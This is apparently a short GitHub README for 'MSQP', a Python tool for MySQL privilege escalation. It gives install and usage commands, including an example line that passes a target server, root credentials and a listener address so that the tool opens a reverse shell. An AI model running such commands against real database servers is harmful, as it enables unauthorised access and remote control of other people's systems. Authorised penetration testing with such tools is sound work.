



# MSQP

This is a MySQL privilege escalation tool.

## Installation Dependencies

`$ python3 -m pip install mysql-connector-python`

## Usage

`$ python3 msqp.py -h`

## Privilege Escalation: Establishing a Reverse Shell

Before establishing a reverse connection, the tool will automatically check if privilege escalation conditions are met. If they are, it will automatically establish a reverse shell to the specified target.

`$ python3 msqp.py 192.168.101.128 3306 root R@v3nSecurity 192.168.101.144 10032`

